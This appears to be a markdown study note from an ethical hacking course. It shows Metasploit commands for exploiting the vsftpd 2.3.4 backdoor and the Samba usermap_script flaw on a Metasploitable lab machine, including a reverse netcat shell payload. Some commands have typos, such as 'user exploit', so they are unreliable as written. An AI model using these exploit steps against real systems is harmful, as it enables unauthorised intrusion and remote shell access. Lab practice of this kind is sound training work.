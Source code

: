 ```
```
### Using Metasploit
A penetration testing framework. Run metasploit.
```
msfconsole
```
#### e.g. VSTPD v2.3.4 backdoor command execution.
After running namp on metasploitable server. We find a service vsftpd v2.3.4 on port 21 which can be exploited with metasploit.
```
use exploit/unix/ftp/vsftpd_234_backdoor
```
To show options.
```
show options
```
Change RHOST.
```
set RHOST [serverIP]
```
Run exploit. If fails, run again.
```
exploit
```
#### e.g. Samba "username map script" command execution
Exploit Samba smdb 3.X service.
```
user exploit/multi/samba/usermap_script
```
To show options.
```
show options
```
Change RHOST.
```
set RHOST [serverIP]
```
Payloads.
```
show payloads
```
Set payload.
```
set PAYLOAD cmd/unix/reverse_netcat (for example)
```
Then exploit.
```
exploit
```
### Using nexpose
A vulnerability management framework similiar to mitasploit but more detailed. Download [here](https://www.rapid7.com/info/nexpose-community/thank-you/) 30 day trial.



Source: [Udemy: Learn ethical hacking from scratch by Zaid](https://www.udemy.com/course/learn-ethical-hacking-from-scratch/)
